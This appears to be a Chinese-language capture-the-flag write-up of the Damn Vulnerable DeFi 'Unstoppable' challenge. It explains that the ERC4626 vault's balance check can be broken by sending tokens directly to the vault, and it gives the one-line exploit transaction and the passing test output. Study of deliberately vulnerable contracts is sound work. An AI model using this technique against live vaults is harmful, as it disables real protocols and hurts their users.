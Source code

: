 ```js
    }
```

观察其中：

```js
uint256 balanceBefore = totalAssets();  
if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

结合经济代币模型:**assets**表示用户从Vault仓库(可以理解为代币池)中存入和取出的基础代币DAT, Shares表示存入DVT后获得的根据比例获得的oDVT

`asset`是资产底层通证 `share`就是股权通证 在本题合约中是1:1兑换的

```js
// unstoppable.challenge.js  
const TOKENS\_IN\_VAULT = 1000000n \* 10n \*\* 18n;  

await token.approve(vault.address, TOKENS\_IN\_VAULT);  
await vault.deposit(TOKENS\_IN\_VAULT, deployer.address);
```

根据ERC4626代币标准[ERC-4626 代币化资金库标准 | ethereum.org](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/)

·totalSupply只能通过 [mint](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#mint) 和 [deposit](https://ethereum.org/zh/developers/docs/standards/tokens/erc-4626/#deposit) 方法将代币存入资金库之前发出

·balanceBefore 可通过 DVT 的 transfer 增加

其实这道题目就是让 `convertToShares(totalSupply) != balanceBefore`

那么我们就可以通过直接调用token.transfer 这样就不会使share发生改变,那么两者就不相等了

那么我们可以直接调用unstoppable.challenge.js中 const INITIAL\_PLAYER\_TOKEN\_BALANCE = 10n \* 10n \*\* 18n; 来使不相等,也可以直接发送代币来使之不相等,数额大小无所谓。

Exp:

```js
//unstoppable.challenge.js  
    it('Execution', async function () {  
        /\*\* CODE YOUR SOLUTION HERE \*/  
        // token = token.connect(player);  
        // await token.transfer(vault.address, 一个数值或者调用INITIAL\_PLAYER\_TOKEN\_BALANCE);  
        await token.connect(player).transfer(vault.address, 任意数值 比如1)  
    });
```

run:

```js
\[Challenge\] Unstoppable  
  ✔ Execution  
1 passing (2s)   //通过
```

Challenge #2 - Naive receiver
-----------------------------
